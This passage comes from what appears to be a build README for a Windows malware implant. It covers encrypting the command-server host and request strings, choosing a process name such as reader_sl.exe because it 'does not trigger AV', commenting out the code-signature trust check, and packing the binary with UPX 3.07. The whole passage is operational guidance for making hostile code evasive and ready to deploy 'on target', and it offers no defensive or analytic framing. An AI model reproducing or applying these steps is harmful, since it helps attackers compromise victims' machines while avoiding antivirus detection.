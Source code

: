 ```


```
#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

```
- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:


http://my.domain.com/cgi-bin/noop?id=


so in stringprotect.exe you write:
```
S("http://my.domain.com/cgi-bin/noop?id=")
```

and copy encrypted string to the right location at common.h so it looks like:

```
#define REQUEST_NOOP L"\x5c\x5b ..."
```

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


## *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
```
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }
```
comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe
```